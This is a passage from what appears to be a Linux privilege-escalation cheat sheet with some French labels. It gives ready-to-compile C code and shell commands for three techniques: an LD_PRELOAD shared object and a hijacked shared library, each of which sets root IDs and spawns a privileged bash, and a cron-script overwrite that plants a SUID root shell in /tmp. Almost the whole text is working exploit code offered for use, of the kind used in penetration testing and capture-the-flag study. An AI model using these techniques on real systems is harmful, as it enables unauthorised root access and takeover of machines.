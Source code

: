 ```c
//gcc -fPIC -shared -nostartfiles -o /tmp/preload.so preload.c

#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
        unsetenv("LD_PRELOAD");
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```

```bash
sudo LD_PRELOAD=/tmp/preload.so <program suid>
```

### Shared object Hijacking

```bash
ldd ./vuln_program
```


```c
//gcc -o /tmp/<une lib du programme> -shared -fPIC library_path.c

#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
        unsetenv("LD_LIBRARY_PATH");
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```

```bash
sudo LD_LIBRARY_PATH=/tmp <program>
```

### Cronjobs

```bash
#overwrite.sh
#!/bin/bash

cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash
```

Attendre:

```bash
chmod +x /home/user/overwrite.sh
/tmp/rootbash -p
```
